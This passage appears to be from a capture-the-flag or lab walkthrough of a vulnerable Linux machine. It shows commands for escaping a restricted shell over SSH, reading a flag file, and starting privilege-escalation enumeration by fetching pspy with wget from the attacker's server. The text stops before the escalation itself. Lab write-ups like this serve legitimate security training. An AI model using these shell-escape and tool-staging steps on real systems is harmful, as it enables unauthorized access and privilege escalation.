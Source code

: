 We can escape the restriction is we use the `-t "bash --noprofile"` option while logging in via SSH.

```
$ ssh 296640a3b825115a47b68fc44501c828@192.168.241.85 -t "bash --noprofile"
296640a3b825115a47b68fc44501c828@192.168.241.85's password: 
bash: dircolors: command not found
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

We can also escape the restriction by setting the PATH variable to the following.

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

### local.txt

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
/usr/bin/cat local.txt
0fc44c820a32214799707c05d1fabc6a
```

### Privilege Escalation

There is an executable called `honeypot.decoy` which we can run. 

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ ./honeypot.decoy 
--------------------------------------------------

Welcome to the Honey Pot administration manager (HPAM). Please select an option.
1 Date.
2 Calendar.
3 Shutdown.
4 Reboot.
5 Launch an AV Scan.
6 Check /etc/passwd.
7 Leave a note.
8 Check all services status.

Option selected:5

The AV Scan will be launched in a minute or less.
--------------------------------------------------

```

#### Enumerating Privilege Escalation vectors using pspy

In order to find a privilege escalation vector we have to use the [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) utility.

```
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~/tmp$ wget http://192.168.45.234:8000/pspy64
--2024-08-09 13:55:54--  http://192.168.45.234:8000/pspy64
Connecting to 192.168.45.234:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                                     100%[========================================================================================================================================>]   2.96M  1.34MB/s    in 2.2s    

```